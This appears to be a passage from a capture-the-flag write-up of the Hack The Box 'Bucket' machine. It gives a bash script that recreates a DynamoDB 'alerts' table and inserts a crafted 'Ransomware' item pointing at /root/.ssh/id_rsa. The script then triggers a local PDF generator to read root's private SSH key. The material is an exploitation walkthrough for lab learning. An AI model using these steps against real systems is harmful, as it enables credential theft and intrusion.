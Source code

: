 ```bash
roy@bucket:~$ aws --endpoint-url=http://localhost:4566 dynamodb list-tables
{
    "TableNames": [
        "alerts",
        "users"
    ]
}
```

Excellent.

### Scripting the Process

Trying to re-run our `curl` command again threw the non-existent table error, and re-running `list-tables` showed it had been deleted. This suggests there is a cleanup script running on the box. We could verify this by running [[Linux Enumeration#Process Monitoring with Pspy|pspy]], but I will take it as a given.

In our script we want to create the table, and then immediately put a malicious item in it. Let's start with listing the tables, then we can figure out our payload:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/ddb]
└─$ cat create-and-curl 
aws --endpoint-url=http://s3.bucket.htb dynamodb create-table --table-name alerts --key-schema AttributeName=title,KeyType=HASH --attribute-definitions AttributeName=title,AttributeType=S --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
```

Running this successfully creates our table.

#### Creating a Malicious Alert

Now we need to create an alert that will read a sensitive file. Looking at the code, the `title` field needs to equal "Ransomware", and then we can put whatever we like in the `data` field.

We use the `put-item` method to do this. [Reading the docs](https://docs.aws.amazon.com/cli/latest/reference/dynamodb/put-item.html) explains how to do this, and the method allows us to set our `data` attribute.

Let's go with `/root/.ssh/id_rsa` to read their private key.

Here's our initial script:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/ddb]
└─$ cat create-and-curl 
aws --endpoint-url=http://s3.bucket.htb dynamodb create-table --table-name alerts --key-schema AttributeName=title,KeyType=HASH --attribute-definitions AttributeName=title,AttributeType=S --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
aws --endpoint-url=http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{ "title": {"S": "Ransomware"},"data": {"S": "/root/.ssh/id_rsa"} }' --return-consumed-capacity TOTAL
aws --endpoint-url=http://s3.bucket.htb dynamodb scan --table-name alerts

curl -X POST -d 'action=get_alerts' localhost:8000
sleep 0.5
wget localhost:8000/files/result.pdf
```
